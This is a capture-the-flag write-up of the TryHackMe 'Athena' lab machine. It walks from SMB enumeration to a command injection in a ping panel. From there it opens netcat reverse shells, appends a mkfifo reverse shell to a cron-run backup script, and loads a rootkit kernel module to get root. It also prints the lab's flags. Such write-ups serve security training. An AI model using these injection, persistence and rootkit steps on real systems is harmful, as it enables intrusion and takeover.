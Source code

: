 # Athena :
```sh
export IP=room-ip
```
# Information Gathering: 

nmap -sV -sC -A  $IP
```sh
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-05 00:25 CEST
Nmap scan report for 10.10.155.144
Host is up (0.14s latency).
Not shown: 996 closed tcp ports (conn-refused)
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3b:c8:f8:13:e0:cb:42:60:0d:f6:4c:dc:55:d8:3b:ed (RSA)
|   256 1f:42:e1:c3:a5:17:2a:38:69:3e:9b:73:6d:cd:56:33 (ECDSA)
|_  256 7a:67:59:8d:37:c5:67:29:e8:53:e8:1e:df:b0:c7:1e (ED25519)
80/tcp  open  http        Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Athena - Gods of olympus
139/tcp open  netbios-ssn Samba smbd 4.6.2
445/tcp open  netbios-ssn Samba smbd 4.6.2
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: -33s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2024-05-04T22:25:31
|_  start_date: N/A
|_nbstat: NetBIOS name: ROUTERPANEL, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 40.53 seconds
```
Now, we have some services that are running in the machine.
# Enumerating this services 

![Screenshot_22](https://github.com/a-9-k/Rooms-Write_Up-THM/assets/53786047/7c256c8a-fad5-4434-867a-f278095acd9d)

Nothing in Here.

I used a tool called enum4linux for the smb  
```sh
[+] Enumerating users using SID S-1-22-1 and logon username '', password ''

S-1-22-1-1000 Unix User\ubuntu (Local User)
S-1-22-1-1001 Unix User\athena (Local User)

Sharename       Type      Comment
	---------       ----      -------
	public          Disk      
	IPC$            IPC       IPC Service (Samba 4.15.13-Ubuntu)
 
 [+] Attempting to map shares on 10.10.155.144

//10.10.155.144/public	Mapping: OK Listing: OK Writing: N/A
```

By this information i was able to use smbclient to enter the Public share

```sh
smbclient  //10.10.155.144/public
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Apr 17 02:54:43 2023
  ..                                  D        0  Mon Apr 17 02:54:05 2023
  msg_for_administrator.txt           N      253  Sun Apr 16 20:59:44 2023
```
So we found text file from the administrator exposing the  dir /myrouterpanel 

```sh
cat msg_for_administrator.txt 

Dear Administrator,

I would like to inform you that a new Ping system is being developed and I left the corresponding application in a specific path, which can be accessed through the following address: /myrouterpanel

Yours sincerely,

Athena
Intern
```
Let’s visit the directory /myrouterpanel.

![Screenshot_23](https://github.com/a-9-k/Rooms-Write_Up-THM/assets/53786047/d010c5af-2dfc-48f3-979d-a6788daab527)

by seeing this ping tool it obvious that we have a command injection vuln
$(ls) !ls ;ls .....
I managed to get this injection to get me a reverse shell 

```sh
127.0.0.1 -c `nc 10.8.46.178 9001 -e /bin/sh`
nc -lvnp 9001

listening on [any] 9001 ...
connect to [10.8.46.178] from (UNKNOWN) [10.10.155.144] 51460
ls
index.html
ping.php
style.css
under-construction.html

```
# stabilize the reverse shell 
```sh
python3 -c 'import pty;pty.spawn("/bin/bash")'
Press CTRL + Z to background process and get back to your host machine
stty raw -echo; fg
export TERM=xterm
```
Here I used linpeas.sh to enumerate the machine.
```sh
my machine : python3 -m http.server 8000
reverse shell : wget http://vpnIP/linpeas.sh -O linpeas.sh
```
I found this file /usr/share/backup/backup.sh with athena as the owner, so i add revshell to the file bc it has crontab running the sh file.

```sh

-rwxr-xr-x   1 www-data athena     258 May 28  2023 backup.sh

www-data@routerpanel:/usr/share/backup$ echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.46.178 4444 >/tmp/f'  >> backup.sh
www-data@routerpanel:/usr/share/backup$ cat backup.sh 
#!/bin/bash

backup_dir_zip=~/backup

mkdir -p "$backup_dir_zip"

cp -r /home/athena/notes/* "$backup_dir_zip"

zip -r "$backup_dir_zip/notes_backup.zip" "$backup_dir_zip"

rm /home/athena/backup/*.txt
rm /home/athena/backup/*.sh

echo "Backup completed..."
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.46.178 4444 >/tmp/f
-----------------------------------------------------------------------------------------------------------------------------------------------------
in my machine
nc -lvnp 4444             
listening on [any] 4444 ...
connect to [10.8.46.178] from (UNKNOWN) [10.10.155.144] 60748
/bin/sh: 0: can't access tty; job control turned off
$ id     
uid=1001(athena) gid=1001(athena) groups=1001(athena)
$ cat user.txt
857c4a4fbac638afb6c7ee45eb3e1a28

```
 What we can run as sudo.
```sh
athena@routerpanel:~/notes$ sudo -l
Matching Defaults entries for athena on routerpanel:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User athena may run the following commands on routerpanel:
    (root) NOPASSWD: /usr/sbin/insmod /mnt/.../secret/venom.ko
```
# Privilege escalation:

 I decompile the file venom.ko , and  i used chatgpt to understand it so i found that 
```sh
 The code you've provided isn't inherently vulnerable by itself; rather, it's designed to exploit vulnerabilities or weaknesses in the Linux kernel. Let's break down potential vulnerabilities or risks associated with this code:

Kernel Code Modification: The code modifies the behavior of certain system calls by hooking into them. This kind of modification introduces a risk of instability or unintended behavior in the kernel. If the modification is not implemented correctly or conflicts with other parts of the kernel, it could lead to system crashes or security vulnerabilities.

Privilege Escalation: By intercepting the kill system call, the code grants root privileges (give_root) based on specific conditions. If an attacker can trigger these conditions, they may be able to escalate their privileges to root, gaining complete control over the system.
Process Hiding: The code includes functionality (is_invisible) to hide certain processes from being listed by system calls like getdents and getdents64. While this may be used for legitimate purposes, such as hiding sensitive processes, it can also be abused by malware to conceal its presence on the system, making it harder for security tools and administrators to detect.

Kernel Module Loading: The code is implemented as a kernel module (diamorphine_init), which means it can be loaded into the kernel dynamically. Kernel modules have elevated privileges and can interact directly with kernel internals, making them powerful tools for both legitimate and malicious purposes. However, loading unauthorized or malicious kernel modules introduces significant security risks, as they can bypass standard security mechanisms and directly manipulate the kernel.

Lack of Input Validation: The code does not appear to perform extensive input validation, particularly in functions like hacked_getdents and hacked_getdents64, where directory entries are filtered based on specific criteria. Without proper input validation, there's a risk of buffer overflows, out-of-bounds accesses, and other vulnerabilities that could be exploited by attackers to compromise the system.

```
```
# exploited
athena@routerpanel:/mnt/.../secret$ sudo /usr/sbin/insmod /mnt/.../secret/venom.ko
athena@routerpanel:/mnt/.../secret$ kill -57 0
athena@routerpanel:/mnt/.../secret$ whoami
root
athena@routerpanel:/mnt/.../secret$ cd /root/
athena@routerpanel:/root$ ls
fsociety00.dat  root.txt
athena@routerpanel:/root$ cat root.txt 
aecd4a3497cd2ec4bc71a2315030bd48
```
